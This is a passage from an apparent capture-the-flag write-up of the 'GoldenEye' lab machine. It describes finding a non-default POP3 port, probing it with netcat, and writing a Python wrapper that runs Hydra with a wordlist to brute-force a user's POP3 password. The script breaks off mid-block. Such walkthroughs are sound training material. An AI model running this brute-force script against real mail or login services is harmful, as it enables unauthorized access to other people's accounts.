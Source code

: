 ![log](/post-images/Golden-Eye/log.png)

There was nothing much but it was hinted out that there was use of a non-default port 
pop3 which we had found in our enumeration. 
From the documentation we understood that we could communicate though the pop3 port 
so we had to netcat the IP through the pop3 ports and it worked we got a pop3 terminal of 
some sorts but we couldn’t get anything so we deviced a python script; 

***Its commands were to run hydra on the set IP, set port, set username, and protocol (just for certainty so as it doesn’t scour through all protocols)***

Here is the Python script;

```

import subprocess 
import uuid 
# Fixed wordlist path 
WORDLIST_PATH = "/usr/share/wordlists/fasttrack.txt" 
# Prompt the user for inputs (allowing copy-paste) 
print("You can copy and paste the following inputs:") 
username = input("Enter the username: ") 
ip_address = input("Enter the IP address: ") 
port = input("Enter the port: ") 
protocol = input("Enter the protocol (e.g., pop3, ssh, ftp): ") 
# Construct the Hydra command 
hydra_command = [ 
"hydra", 
    "-l", username, 
    "-P", WORDLIST_PATH, 
    "-f", 
    ip_address, 
    "-s", port, 
    protocol 
] 
 
# Execute the Hydra command and capture output 
try: 
    print("\nRunning Hydra... Please wait.") 
    result = subprocess.run(hydra_command, capture_output=True, text=True, 
check=True) 
     
    # Extract the successful login credentials from Hydra's output 
    output = result.stdout 
```